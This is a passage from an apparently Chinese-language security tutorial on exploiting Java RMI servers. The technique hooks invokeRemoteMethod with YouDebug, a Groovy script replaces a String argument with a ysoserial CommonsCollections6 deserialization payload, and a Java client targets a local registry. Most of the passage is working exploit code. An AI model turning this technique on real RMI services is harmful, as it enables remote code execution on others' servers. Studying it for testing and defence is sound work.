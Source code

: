 可以看到这个方法的逻辑，顾名思义就是调用远程方法，且第三个参数args，是一个数组，代表了调用的远程方法的参数值列表，所以我们可以通过YouDebug这个工具来hook这个方法，将传递的参数值修改为恶意的对象，Server端接收到后进行反序列化就会被攻击。

接下来介绍怎么通过使用YouDebug将String类型的参数值，修改成CC6 payload。

首先创建一个hack.groovy：

```groovy
// YouDebug不支持传递参数值到脚本中
// 你可以在这里修改你需要的一些参数
def payloadName = "CommonsCollections6";
def payloadCommand = "calc";
// 这个代表你传递的String类型的参数值，待会hook到后将进行匹配判断，防止修改错参数
def needle = "p1n93r"
println "Loaded..."
// 在invokeRemoteMethod方法上设置断点，查找传递过来的String类型的参数值
// 在找到的参数值内匹配needle参数值，如果匹配到，则将其替换成反序列化payload
vm.methodEntryBreakpoint("java.rmi.server.RemoteObjectInvocationHandler", "invokeRemoteMethod") {
  println "[+] java.rmi.server.RemoteObjectInvocationHandler.invokeRemoteMethod() is called"
  // 注意：pyload class需要被YouDebug加载到
  vm.loadClass("ysoserial.payloads." + payloadName);
  // 获取方法的第三个参数值，也就是args
  delegate."@2".eachWithIndex { arg,idx ->
     println "[+] Argument " + idx + ": " + arg[0].toString();
     if(arg[0].toString().contains(needle)) {
        println "[+] Needle " + needle + " found, replacing String with payload" 
        // 准备创建payload
        def payload = vm._new("ysoserial.payloads." + payloadName);
        def payloadObject = payload.getObject(payloadCommand)
        vm.ref("java.lang.reflect.Array").set(delegate."@2",idx, payloadObject);
        println "[+] Done.."
     }
  }
}
```

编写如下Client代码，调用Server的sayHello方法，传递的是一个String类型对象，后续通过YouDebug动态修改这个参数值为CC6 payload：

```java
public class Attack {
    public static void main(String[] args)throws Exception {
        Registry registry = LocateRegistry.getRegistry("127.0.0.1", 1099);
        HelloService hello = (HelloService)registry.lookup("hello");
        hello.sayHello("p1n93r");
    }
}
```

然后使用如下参数启动你的Client：

```java
Java -agentlib:jdwp=transport=dt_socket,server=y,address=127.0.0.1:8000
```

如下所示：
